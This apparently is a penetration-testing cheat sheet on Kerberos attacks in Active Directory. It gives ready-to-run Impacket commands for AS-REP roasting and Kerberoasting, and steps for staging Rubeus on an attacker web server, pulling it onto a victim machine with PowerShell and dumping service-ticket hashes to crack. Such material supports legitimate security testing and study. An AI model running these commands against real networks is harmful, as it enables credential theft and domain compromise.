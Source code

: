 # Kerberos - 88

## Kerberos Information

Kerberos is a protocol for authentication, not authorization. In other words, it allows for the identification of each user who provides a secret password, but it does not validate which resources or services this user has access to. Active Directory makes use of Kerberos. Kerberos provides information about each user's privileges on this platform, but it is the responsibility of each service to determine whether the user has access to its resources.

Default Port: 88/tcp/udp

```text
PORT   STATE SERVICE
88/tcp open  kerberos-sec
```

## Abuse Kerberos

### ASEPRoasting

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting. As soon as we have a username, we can use the GetNPUsers script from Impacket to retrieve its password hash:

```text
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11
```

After capturing the hash, you can then copy the TGT in a file and try to crack it with john or hashcat.

### Kerberoasting from the Attacker Machine

If Kerberos is open, then you may try a Kerberoasting attack with GetUsersSPNs script from Impacket:

```text
impacket-GetUserSPNs domain.local/user:password -request 
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 10.10.10.10
```

If Kerberos was port forwarded to your localhost then you may try the following:

```text
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 127.0.0.1
```

### Kerberoasting on Victim Machine

#### Rubeus

Rubeus.exe is one of the many tools that can perform a Kerberoasting attack on the victim machine.

Clone rubeus.exe on the attacker machine

```text
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

Set up a listener to transfer the file to the victim machines

```text
python -m http.server 80
```

Download the file from the attacker's machine.

```text
iwr -uri http://10.10.10.11/Rubeus.exe -OutFile Rubeus.exe
```

Execute the Kerberoasting attack on the victim machine \(in this example we will perform a Kerberoasting with alternate credentials\)

```text
C:\temp\Rubeus.exe -> check the roating possibilities
C:\temp\Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password1234
```

You will then see the hash that you can copy into the attacker machine and try to crack it with john or hashcat.

